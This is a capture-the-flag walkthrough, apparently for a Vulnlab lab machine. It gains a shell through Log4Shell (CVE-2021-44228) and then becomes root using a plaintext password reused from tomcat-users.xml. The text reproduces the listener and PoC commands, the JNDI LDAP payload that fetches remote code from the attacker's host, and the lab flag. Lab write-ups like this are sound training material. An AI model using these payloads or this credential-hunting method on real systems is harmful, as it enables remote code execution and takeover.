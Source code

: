 

# Foothold

website seesm to be vulnerable for log5j

found in source code 

![image](https://github.com/suljov/CTF-Walkthroughs/blob/main/vulnlab/Feedback/Screenshots/Pasted%20image%2020240209210541.png)


![image](https://github.com/suljov/CTF-Walkthroughs/blob/main/vulnlab/Feedback/Screenshots/Pasted%20image%2020240209210505.png)


script to use for exploit 

https://github.com/kozmer/log4j-shell-poc

starting web server 
```
python3 -m http.server 8080
```

starting listener 
```
nc -lvnp 8181
```

exploit 
```
python3 poc.py --userip 10.8.1.92 --webport 8080 --lport 8181

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[+] Exploit java class created success
[+] Setting up LDAP server

[+] Send me: ${jndi:ldap://10.8.1.92:1389/a}

[+] Starting Webserver on port 8080 http://0.0.0.0:8080
Listening on 0.0.0.0:1389
Send LDAP reference result for a redirecting to http://10.8.1.92:8080/Exploit.class
Send LDAP reference result for a redirecting to http://10.8.1.92:8080/Exploit.class
Send LDAP reference result for a redirecting to http://10.8.1.92:8080/Exploit.class
Send LDAP reference result for a redirecting to http://10.8.1.92:8080/Exploit.class
```



![image](https://github.com/suljov/CTF-Walkthroughs/blob/main/vulnlab/Feedback/Screenshots/Pasted%20image%2020240209213453.png)
and we got shell

![image](https://github.com/suljov/CTF-Walkthroughs/blob/main/vulnlab/Feedback/Screenshots/Pasted%20image%2020240209213559.png)



# Privesc



password in tomcat folder allows to login as root


```
cat /opt/tomcat/conf/tomcat-users.xml


<?xml version="1.0" encoding="UTF-8"?>
<!--
  Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">
  <user username="admin" password="H2RR3rGDrbAnPxWa" roles="manager-gui"/>
  <user username="robot" password="H2RR3rGDrbAnPxWa" roles="manager-script"/>

</tomcat-users>

```


```
tomcat@ip-10-10-10-7:~/conf$ su
Password: 
root@ip-10-10-10-7:/opt/tomcat/conf# whoami
root
root@ip-10-10-10-7:/opt/tomcat/conf# cd /root
root@ip-10-10-10-7:~# cat root.txt 
VL{25da7f42f4e279698c91c0ce911d51a9}
root@ip-10-10-10-7:~# ip add
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 0a:82:7b:12:b8:e1 brd ff:ff:ff:ff:ff:ff
    inet 10.10.67.198/18 brd 10.10.127.255 scope global dynamic eth0
       valid_lft 2179sec preferred_lft 2179sec
    inet6 fe80::882:7bff:fe12:b8e1/64 scope link 
       valid_lft forever preferred_lft forever

```


![image](https://github.com/suljov/CTF-Walkthroughs/blob/main/vulnlab/Feedback/Screenshots/Pasted%20image%2020240209215243.png)


